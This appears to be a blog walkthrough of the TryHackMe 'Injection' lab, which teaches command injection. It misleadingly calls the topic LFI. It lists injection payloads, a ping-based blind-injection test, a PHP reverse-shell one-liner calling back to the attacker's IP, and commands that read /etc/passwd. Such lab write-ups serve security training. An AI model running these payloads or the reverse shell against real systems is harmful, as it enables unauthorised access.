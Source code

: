 ```yaml
---
layout: post
title: Injection – Try Hack Me
subtitle: Walkthrough
tags: [LFI,Webapp]
---
```


In this box you will learn all about LFI (local file inclusion). Great start for anyone that wants to begin learning about web app vulnerabilities. 
Usually occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.


[Challenge](https://tryhackme.com/room/injection)

## Task 1

Initiate the VPN connection and deploy the machine


Add the IP address of our machine to the /etc/hosts

~~~
echo 10.10.45.107 injection >> /etc/hosts
~~~

## Task 2 → An Introduction To Command Injection

Head over to http://injection/ and mess around with the web application.
Here are some common command injection payloads try them out.

~~~
; ls
&& ls
| ls
|| ls 
~~~

## Task 3 → Blind Command Injection

From the previous task you might have noticed that when you supply a existing user concatenated with a command injection payload we get a succesful response. 
Such as:
~~~
root; ls
~~~

![root;ls](/img/2020-07-24-Injection/root-ls.png)

Since we don't see any output, we might think that there is a blind command injection. To check this let's ping the machine and see if the responses is delayed.

~~~
root & ping -c 10 <Machine-IP>
~~~

Since the response takes a while it's a good indication that our assumption was correct.
Let's try to view the response. We can try to redirect the output of a command to a file. Let's try 'index.php'.

~~~
root;uname -r > tmp.php
~~~
Heading over to 'http://injection/tmp.php' we can see the output of our payload.

![uname](/img/2020-07-24-Injection/uname.png)

Next, enter the username asked in the web application and check the message displayed. 
By now you probably noticed that an existing username will display 'Success' on the other hand a user that does not exits will display 'Error'.

## Task 4 → Active Command Injection

In this task we are given an interactive shell. Head over to 'http://injection/evilshell.php'.
Run the 'ls' command to see the content of the current directory.

![ls](/img/2020-07-24-Injection/ls.png)

For the rest of this box let's get a reverse shell, in order to easily interpret the output.
On your machine run:

~~~
ncat -l -p 1337
~~~

Next on the our interactive shell execute: 10.9.2.107
~~~
php -r '$sock=fsockopen("<Your_IP>",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~
You can find your IP on this link https://tryhackme.com/access or run 'ifconfig' and check the IP on the tun0 interface.

The answer to the next questions can be found be running the following commnads.

~~~
#2 cat /etc/passwd
#3 whoami
#4 cat /etc/passwd | grep www-data
#5 lsb_release -a
#6 cat /etc/update-motd.d/00-header
~~~

## Task 5 → Get The Flag!

Ussually the name of the flag file is 'flag.txt', so let's search for it.

~~~
find / -name flag.txt 2>/dev/null 
~~~
Simply use cat and you are done.
Hope you enjoyed this guide.

